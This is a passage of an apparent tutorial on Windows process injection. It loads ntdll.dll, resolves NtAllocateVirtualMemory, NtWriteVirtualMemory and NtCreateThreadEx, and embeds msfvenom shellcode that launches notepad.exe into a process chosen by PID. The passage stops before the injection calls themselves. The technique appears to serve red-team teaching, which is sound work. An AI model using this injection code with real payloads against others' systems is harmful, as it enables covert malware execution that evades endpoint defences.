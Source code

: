 ```c
    SIZE_T Size;  
    union {  
        ULONG Value;  
        PVOID ValuePtr;  
    } u1;  
    PSIZE_T ReturnLength;  
} PS_ATTRIBUTE, *PPS_ATTRIBUTE;  
  
typedef struct _PS_ATTRIBUTE_LIST  
{  
    SIZE_T       TotalLength;  
    PS_ATTRIBUTE Attributes[1];  
} PS_ATTRIBUTE_LIST, *PPS_ATTRIBUTE_LIST;
```

Now Let's load `ntdll.dll` and map the functions.

```c
HINSTANCE hNtdll = LoadLibraryW(L"ntdll.dll");  
if (!hNtdll)  
{  
    printf("Load ntdll fail\n");  
    exit(1);  
}  
  
NAVM NtAllocateVirtualMemory = (NAVM)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");  
NWVM NtWriteVirtualMemory = (NWVM)GetProcAddress(hNtdll, "NtWriteVirtualMemory");  
NCT NtCreateThreadEx = (NCT)GetProcAddress(hNtdll, "NtCreateThreadEx");
```

Finally we can call these functions. 

```c  
typedef NTSTATUS(NTAPI* NAVM)(HANDLE, PVOID, ULONG, PULONG, ULONG, ULONG);  
typedef NTSTATUS(NTAPI* NWVM)(HANDLE, PVOID, PVOID, ULONG, PULONG);  
typedef NTSTATUS(NTAPI* NCT)(PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PPS_ATTRIBUTE_LIST);  
  
int main(int argc, char * argv[])  
{  
    // msfvenom -p windows/x64/exec CMD=notepad.exe -f c  
    unsigned char shellcode[] =  
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x6e\x6f\x74\x65\x70\x61\x64\x2e\x65\x78\x65\x00";
     
	int newPid = atoi(argv[1]);  
	printf("Injecting into pid %d\n", newPid);  
```